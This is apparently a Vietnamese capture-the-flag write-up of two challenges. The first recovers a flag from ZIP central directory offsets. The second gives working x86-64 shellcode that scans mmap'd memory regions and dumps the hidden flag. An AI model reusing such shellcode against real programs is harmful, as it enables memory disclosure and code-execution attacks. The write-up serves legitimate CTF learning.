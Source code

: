 # Appnote.txt

Bài này là một dạng kỹ thuật nén nhiều tệp tin txt vào một file zip, ở đây ta có thể thấy flag được đánh số từ 0-18 tức là 19 ký tự và nếu dump ra 32 file flagxx.txt bất kỳ ta sẽ nhận được chuỗi strings abcdefghijklmnopqrstuvwxyz{CTF0137} lặp lại từ 00-18 có nghĩa là ký tự flag đã bị đảo chúng ta cần xác định vị trí chính xác của ký tự flag trong 32 flle flagxx.txt thì chúng t dựa vào `End of central directory record` của file zip là `50 4b 05 06` và từ `EOCDR` ta sẽ xác định được `Central Directory file header` sau 2 byte `00` là sẽ tới 2 byte `CD`:

```
CC 00 00 00

88 0A 00 00

65 17 00 00

42 24 00 00

BB 2F 00 00

6C 38 00 00

27 4A 00 00

7F 52 00 00

3A 64 00 00

71 69 00 00

37 7C 00 00

58 7F 00 00

F1 95 00 00

3E 9D 00 00

5E A8 00 00

88 BC 00 00

92 C5 00 00

2C D4 00 00

20 DB 00 00

3F EE 00 00

50 00 00 00 
```

Dùng HxD search hex value các CD thì ta sẽ tìm được vị trí của flag từ 00-18:
```
88 0A 00 00 = flag00C = C

65 17 00 00 = flag01T = T

42 24 00 00 = flag02F = F

BB 2F 00 00 = flag03{ = {

6C 38 00 00 = flag04p = p

27 4A 00 00 = flag050 = 0

7F 52 00 00 = flag06s = s

3A 64 00 00 = flag077 = 7

71 69 00 00 = flag08m = m

37 7C 00 00 = flag090 = 0

58 7F 00 00 = flag10d = d

F1 95 00 00 = flag113 = 3

3E 9D 00 00 = flag12r = r

5E A8 00 00 = flag13n = n

88 BC 00 00 = flag14 = _

92 C5 00 00 = flag15z = z

2C D4 00 00 = flag161 = 1

20 DB 00 00 = flag17p = p

3F EE 00 00 = flag18} = }
```

=> CTF{p0s7m0d3rn_z1p}


# Segfault Labyrinth
Bài này tạo nhiều mảng nối lồng lại với nhau và sau đó để flag vào 1 trong những ô nhớ vừa được tạo. Nhiệm vụ sẽ là viết shellcode để lấy được flag:

```asm
lea rsp, [rip + 0x1000 - 0x34]
push 0
push rdi
check_stack:
mov rax, 1
mov rdi, 1
mov rsi, [rsp]
mov rdx, 128
syscall
pop rbp
mov r9, 0
loop:

mov r10, qword ptr [rbp + r9 * 8]

test r10, r10
jz skip_item

mov rax, r10
and rax, 0xfff
test rax, rax
jnz skip_item

mov rax, 5
mov rdi, 0
lea rsi, [r10 + 128]
syscall
cmp rax, 0xfffffffffffffff2
je skip_item

push r10

skip_item:
add r9, 1
cmp r9, 16
je check_stack
jmp loop
```

Tóm tăt: Vì sử dụng mmap nên elf sẽ allocate nhưng memory region khác nhau. Như vậy chỉ cần duyệt qua tất cả các memory region, đoạn memory nào được allocate thì sẽ in hết nội dung ra. 

Tham khảo: <https://shakuganz.com/2021/07/14/hackthebox-hunting-write-up>